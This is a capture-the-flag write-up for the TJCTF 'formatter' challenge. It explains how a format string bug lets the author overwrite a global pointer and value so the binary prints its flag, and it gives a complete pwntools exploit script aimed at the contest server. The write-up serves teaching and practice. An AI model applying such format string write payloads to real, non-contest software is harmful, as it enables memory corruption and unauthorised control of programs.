






# formatter

## Problem

<details>

<summary>Description</summary>

give me a string, any string!

`nc tjc.tf 31764`

</details>

## Solution

<figure><figcaption><p>checksec</p></figcaption></figure>

The name of the challenge indicates that we're going to do an format string vulnerability to exploit this program and we can see this in the `main` function where after it receives our buffer, it will print without any format specifier allowing us to overwrite values in memory or read values from the stack.

<figure><figcaption><p>decompiled main</p></figcaption></figure>

`Main` also make some memory allocation with `calloc` of 1 unit in size of 4 bytes which the address of this dynamic memory is being hold by the global variable `xd`.  It will also run `r1` with our buffer as parameter, but this parameter won't be relevant.

<figure><figcaption><p>decompiled r1</p></figcaption></figure>

The relevant line of this code is line 5, which will take `xd` as a pointer (which hold the address allocated by `calloc`) and increments the value by two. So It doesn't the value of `xd` holds (address allocated by `calloc`), but it will add 2 to the memory allocated by calloc which is pointed by `xd`&#x20;

<figure><figcaption><p>decompiled win</p></figcaption></figure>

Here, in order for the function to trigger and output the flag, we have to satisfy the condition which is the value of an memory pointed by the address `xd` holds must be `0x86a793e`. So we have to write `0x86a793e - 0x02` into the memory `xd` pointing to. Problem is that the memory `calloc` returns is always changing. Recall from the `main` function we also have another global variable named `among`. We can instead change the memory pointing from the memory of `calloc` allocated to the address of `among` and since PIE isn't enabled, the address is hardcoded. We can then set the value of `among` to our desire to satisfy the condition

<figure><figcaption><p>returned value after overwriting in plain mode</p></figcaption></figure>

<figure><figcaption><p>returned value after overwriting in hexdump</p></figcaption></figure>


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'tjc.tf'
port = 31764

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE: 
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x40139c
break *0x004013ad
break *0x004012a4
break *0x04011d4
'''.format(**locals())

# =========================================================
#                         FUZZING
# =========================================================
io = start()
# found offset at %6$p
io.sendlineafter(b'give me a string (or else): ', b'AAAAAAAA.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx')
io.close()

# =========================================================
#                         ADDRESSES
# =========================================================
xd = elf.sym['xd'] # 0x403440
among = elf.sym['among'] # 0x403460
value = 0x86a693c
padding = b'\x01' * 3

# =========================================================
#                         EXPLOITS
# =========================================================
io = start()

# reference : https://www.youtube.com/watch?v=9SWYvhY5dYw
# reference : https://www.youtube.com/watch?v=KgDeMJNK5BU

# 1st overwrite (write the desired value to among)
# 2nd overwrite (a pointer that xd holds, overwrite it into among)

# 1st write 2nd overwrite -> (0x60) ->  96 - 0 = 96 to xd (hhn)
# 1st write 1st overwrite -> (0x086a) -> 2154 - 96 = 2058 to among + 2 (n)
# 2nd write 2nd overwrite -> (0x4034) -> 16372 - 96 = 14218 to xd + 1 (n)
# 2nd write 1st overwrite -> (0x693c) -> 26940 - 2154 = 10568 to among (hn)

# this doesn't work
payload_manual = b'%96X%14$hhn' + b'%2058X%15$n' + b'%14218X%16n' + b'%10568X%17hn' + padding + p64(xd) + p64(among + 2) + p64(xd + 1) + p64(among)

payload_auto = fmtstr_payload(6, {among : value, xd : among})

io.sendlineafter(b'give me a string (or else): ', payload_auto)
print(io.recvall())
```


I tried to craft the payload on my own, however it doesn't seem to work instead we can use the format string payload provided by pwntools and work just fine.&#x20;

## Flag

> _**tjctf{f0rm4tt3d\_5883cc30}**_
